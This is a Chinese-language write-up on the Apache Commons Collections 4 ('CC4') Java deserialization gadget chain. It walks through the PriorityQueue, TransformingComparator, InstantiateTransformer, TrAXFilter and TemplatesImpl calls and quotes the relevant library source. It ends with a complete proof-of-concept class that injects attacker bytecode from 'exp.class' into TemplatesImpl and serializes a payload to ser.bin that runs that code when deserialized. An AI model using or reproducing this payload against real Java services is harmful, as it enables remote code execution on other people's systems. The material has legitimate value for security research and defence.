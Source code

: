 # CommonsCollections4 analyze

# 0x00

因为`CommonsCollections4`​除`4.0`​之外的其他版本将`InvokerTransformer`​的`Serializeble`​继承去掉了,导致`InvokerTransformer`​无法被反序列化

简述一下这条链子的基本流程和重要的点

```java
首先链尾是调用了InstantiateTransformer::transform()方法触发
然后由TransformingComparator::compare()方法调用transform()方法
再往上是PriorityQuequ::siftDownUsingComparator()方法调用了compare()方法
siftdown()方法调用了siftDownUsingComparator()方法,而siftdown()方法又是由heapify()方法触发
然后readObject()方法刚好调用了heapify()方法
```

# 0x01

关注一下这条链子的触发细节,从`PriorityQueue::readObject()`​方法开始

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

直接看`heapify()`​方法

```java
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

首先`size>>>1`​的意思是往右移一位,相当于`size/2`​,因为是以二进制数存储的,所以往右移动一位数就相当于`/2`​,而这个`size`​则表示为`PriorityQueue`​队列的长度,也就是数组的元素数量

也就是说这里的`size`​需要`>=2`​才可以执行`siftDown()`​方法

继续往下看,看到`siftDown()`​方法

```java
    private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

这里就比较简单,只要`comparator`​不为空就执行`siftDownUsingComparator()`​方法

看到`siftDownUsingComparator()`​方法

```java
    private void siftDownUsingComparator(int k, E x) {
        int half = size >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = queue[child];
            int right = child + 1;
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
                break;
            queue[k] = c;
            k = child;
        }
        queue[k] = x;
    }
```

这里接收两个参数`k`​和`x`​

因为我们最重要让他触发`comparator.compare()`​,所以这里传入的`k`​要小于`size/2`​ 也就可以触发`comparator.compare()`​方法了

这里的`k`​其实就是我们上面的`i`​也就是`(size>>>1)-1`​,所以这里是可以直接触发`comparator.compare()`​方法的

然后看到`PriorityQueue`​的构造方法`comparator`​的值是完全可控的

然后直接来到`TransformingComparator::compare()`​方法

```java
    public int compare(final I obj1, final I obj2) {
        final O value1 = this.transformer.transform(obj1);
        final O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

直接触发`transform()`​方法,控制一下`this.transformer`​的值可以直接触发到`InstantiateTransformer::transform()`​方法

然后看到`InstantiateTransformer::transform()`​方法

```java
    public T transform(final Class<? extends T> input) {
        try {
            if (input == null) {
                throw new FunctorException(
                    "InstantiateTransformer: Input object was not an instanceof Class, it was a null object");
            }
            final Constructor<? extends T> con = input.getConstructor(iParamTypes);
            return con.newInstance(iArgs);
        } catch (final NoSuchMethodException ex) {
            throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
        } catch (final InstantiationException ex) {
            throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
        } catch (final IllegalAccessException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
        } catch (final InvocationTargetException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
        }
    }
```

这里检测传入的类是否为空的,如果不为空,则获取这个类的有参构造方法,并且传入`iArgs`​,将这个类实例化并返回

那我们就可以看到`TrAXFilter`​这个类的构造方法

```java
public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

这里比较关键的代码就是`_transformer = (TransformerImpl) templates.newTransformer();`​

这里调用了`newTransformer()`​这个方法,实际上这个方法也有一条利用链可以通过`TransletClassLoader::defineClass()`​来实现命令执行,至此`CC4`​这条链子就结束了

最后再总结补上链子的流程图和`poc`​

​![image](assets/image-20240813102209-3l48j8x.png)​

​`PoC`​

```java
package org.example;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

/*
    PriorityQueue.readObject()
        Priority.heapify()
            Priority.siftDown()
                Priority.siftDownUsingComparator()
                    comparator.compare()
                        InstantiateTransformer.compare()
 */
public class CC4 {
    public static void main(String[] args) throws Exception{
        exp();
    }

    public static void exp() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "p1ng");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] evil = Files.readAllBytes(Paths.get("exp.class"));
        byte[][] codes = {evil};
        bytecodesField.set(templates, codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{templatesClass}, new Object[]{templates});
        Transformer[] transformer = new Transformer[] {
            new ConstantTransformer(TrAXFilter.class),instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(1);

        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator, chainedTransformer);

        serialize(priorityQueue);
        deserialize();

    }
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream oss = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oss.writeObject(obj);
    }
    public static Object deserialize() throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("ser.bin"));
        Object obj = ois.readObject();
        return obj;
    }
}
```

‍
